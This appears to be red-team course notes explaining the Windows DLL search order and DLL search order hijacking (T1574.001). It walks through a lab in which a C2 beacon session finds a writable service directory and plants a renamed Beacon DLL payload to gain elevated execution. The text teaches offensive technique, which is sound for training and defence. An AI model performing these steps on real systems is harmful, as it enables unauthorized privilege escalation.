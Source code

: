All but the most basic of applications will reference functions located in external modules, such as DLLs (dynamic-link libraries).  DLLs are PE (portable executable) files that contain common functionalities that can be used by any program.  Windows provides multiple DLLs that can be used by programmers, such as kernel32.dll, user32.dll, etc, to interact with various parts of Windows.  Developers can also write their own DLLs for use in their applications.

When referencing a DLL, it's atypical to provide its full path because it cannot be reliably known ahead of time.  For example, specifying `C:\Windows\System32\kernel32.dll` will not work in all cases because Windows does not have to be installed on a drive labelled C.  Specifying something like `C:\Program Files\My Application\MyDll.dll` will also not work in all cases because a user may choose to install the application in a different location.

Therefore, a program usually only references external modules by their name, e.g. "kernel32" or "MyDll", and Windows becomes responsible for finding its location on disk.  This is called the [DLL search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order).

Although there is some nuance depending on the type of application, the search order for most will be:

- The executing directory.
    
- The System32 directory.
    
- The 16-bit System directory.
    
- The Windows directory.
    
- The current working directory of the program.
    
- Directories in the PATH environment variable.
    

DLL search order hijacking is a technique [T1574.001](https://attack.mitre.org/versions/v16/techniques/T1574/001/) where an adversary drops a malicious module of the same name in a directory that is higher in the search hierarchy than that of the legitimate module.  If the program loading the module is running with elevated privileges, then this will result in an elevation of privilege for the adversary.

Consider this simple example, where a DLL is loaded and freed on a loop.
![[Pasted image 20250707103705.png]]

The path passed to LoadLibrary is relative.  However, there is no _BadDll.dll_ file in the directory the service executable is running from.

```powershell
beacon> ls C:\Program Files\Bad Windows Service\Service Executable

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 9kb      fil     01/06/2025 16:10:12   BadWindowsService.exe
```

So where is this being loaded from?  A review of the path environment variable shows that `C:\Program Files\Bad Windows Service` has been appended to the system path variable.

```powershell
beacon> env
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\Bad Windows Service;C:\Users\kbowles\AppData\Local\Microsoft\WindowsApps
```

Listing this directory shows this is where BadDll.dll exists.

```powershell
beacon> ls C:\Program Files\Bad Windows Service

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/06/2025 16:12:31   Service Executable
 10kb     fil     01/06/2025 16:10:12   BadDll.dll
```

Based on the search order outlined above, where could an adversary potentially hijack this DLL?  The executing directory is a possibility _if_ the directory is writable.  In this scenario, it is.

```powershell
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable"
C:\Program Files\Bad Windows Service\Service Executable NT AUTHORITY\Authenticated Users:(CI)(OI)F
```

To perform the hijack, simply upload a Beacon DLL payload into this directory, and call it `BadDll.dll`.

```powershell
beacon> cd C:\Program Files\Bad Windows Service\Service Executable
beacon> upload C:\Payloads\dns_x64.dll
beacon> mv dns_x64.dll BadDll.dll
```

![[Pasted image 20250707103948.png]]
